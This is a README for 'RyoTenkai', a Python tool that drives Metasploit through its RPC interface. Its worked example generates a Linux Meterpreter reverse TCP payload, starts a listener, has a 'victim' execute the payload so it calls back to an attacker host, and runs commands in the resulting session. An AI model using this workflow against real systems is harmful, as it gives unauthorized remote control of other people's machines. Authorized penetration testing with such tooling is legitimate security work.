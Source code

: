 

# RyoTenkai: Metasploit RPC Automation Tool

This Python tool is designed to automate tasks within the Metasploit Framework using the `pymetasploit3` library, allowing for interaction with the Metasploit RPC server. The tool provides functionalities such as running exploits, polling jobs and sessions, interacting with open sessions, and generating payloads using `msfvenom`.

## Features

- **Start Metasploit RPC server**: Start the RPC server with user-specified credentials and port.
- **Run any Metasploit module**: Execute Metasploit modules and retrieve their output.
- **Poll active jobs**: View currently active jobs in the Metasploit instance.
- **Poll active sessions**: View currently active sessions.
- **Access a session and run a command**: Interact with an active session and run commands within it.
- **Generate payloads using msfvenom**: Create payloads in various formats (e.g., ELF, EXE) for use with Metasploit modules.

## Requirements

- Python 3.x
- Metasploit installed and configured
- `pymetasploit3` library for interacting with the Metasploit RPC server
- `configparser` for managing configuration settings
- `argparse` for parsing command-line arguments

## Installation

1. Clone the repository:

    ```bash
    git clone https://github.com/your-repo/ryotenkai.git
    ```

2. Install the required dependencies:

    ```bash
    pip install pymetasploit3
    ```

3. Ensure that your Metasploit instance is running, and the Metasploit RPC server is enabled.

4. Configure the `config.ini` file (see below).

## Configuration

The tool reads the default configurations from a `config.ini` file. Here is an example `config.ini` file:

### Example `config.ini`:

```ini
[default]
msf_password = msfrpc
rpc_server = 10.192.0.3
rpc_port = 55559
rpc_ssl = True

[start_rpc]
rpc_user = msf
rpc_password = msfrpc
rpc_port = 55559

[run_module]
module = multi/handler
PAYLOAD = linux/x64/meterpreter/reverse_tcp
LHOST = 10.192.0.3
LPORT = 12344
ExitOnSession = false

[generate_payload]
format = elf
payload = linux/x64/meterpreter/reverse_tcp
lhost = 10.192.0.3
lport = 12344
output_file = test.sh

[get_jobs]
# No additional settings required as default values are reused

[get_sessions]
# No additional settings required as default values are reused

[run_command]
session_id = 4
session_command = ifconfig
```

## Usage

### General Structure

```bash
python ryotenkai.py <command> [options]
```

### Common Arguments

All commands share the following common arguments:

- `--msf-password`: The password for the Metasploit RPC server (default: `msfrpc`).
- `--rpc-server`: The Metasploit RPC server address (default: `127.0.0.1`).
- `--rpc-port`: The Metasploit RPC server port (default: `55552`).
- `--rpc-ssl`: Use SSL for RPC connection (default: `False`).

These arguments can be overridden via command line or specified in `config.ini`.

### Example Use Case: Full Workflow

This example demonstrates the complete workflow of starting the Metasploit RPC server, generating a payload, setting up a listener, polling jobs, confirming a session is open, and interacting with the session.

#### 1. Start the Metasploit RPC Server

```bash
python ryotenkai.py start_rpc --rpc-password msfrpc --rpc-port 55559
```

This command will start the Metasploit RPC server on port `55559` with the password `msfrpc`.

#### 2. Generate a Payload

```bash
python ryotenkai.py generate_payload elf linux/x64/meterpreter/reverse_tcp 10.192.0.3 12344 /tmp/payload.sh --msf-password msfrpc --rpc-port 55559 --rpc-server 10.192.0.3 --rpc-ssl
```

This command generates a Linux Meterpreter reverse TCP payload in ELF format with the following parameters:
- LHOST: `10.192.0.3`
- LPORT: `12344`
- Output file: `/tmp/payload.sh`

The victim machine will run this payload to initiate a reverse connection.

#### 3. Run the Listener (Metasploit Handler)

```bash
python ryotenkai.py run_module multi/handler --option 'PAYLOAD=linux/x64/meterpreter/reverse_tcp' --option 'LHOST=10.192.0.3' --option 'LPORT=12344' --msf-password msfrpc --rpc-port 55559 --rpc-server 10.192.0.3 --rpc-ssl
```

This command sets up a listener using the `multi/handler` module, waiting for the reverse shell connection from the victim.

#### 4. Poll Jobs to Confirm Listener is Active

```bash
python ryotenkai.py get_jobs --msf-password msfrpc --rpc-server 10.192.0.3 --rpc-port 55559 --rpc-ssl
```

This command checks the active jobs in Metasploit, confirming that the listener (handler) is running.

#### 5. Victim Executes the Payload

On the victim machine, the payload script generated in step 2 is executed:

```bash
sh /tmp/payload.sh
```

This triggers the reverse shell connection to the Metasploit listener.

#### 6. Poll Sessions to Confirm a Session is Open

```bash
python ryotenkai.py get_sessions --msf-password msfrpc --rpc-server 10.192.0.3 --rpc-port 55559 --rpc-ssl
```

This command polls the active sessions in Metasploit, confirming that a Meterpreter session has been opened with the victim.

#### 7. Run a Command in the Session

```bash
python ryotenkai.py run_command 1 ifconfig --msf-password msfrpc --rpc-server 10.192.0.3 --rpc-port 55559 --rpc-ssl
```

This command accesses session ID `1` and runs the `ifconfig` command, retrieving the network interface details of the victim.

## Logging

The script uses Python's logging module to provide detailed information about the operations being performed. The log level is set to `INFO` by default but can be adjusted within the script for more verbose output.

## License

This project is licensed under the MIT License. See the LICENSE file for more information.

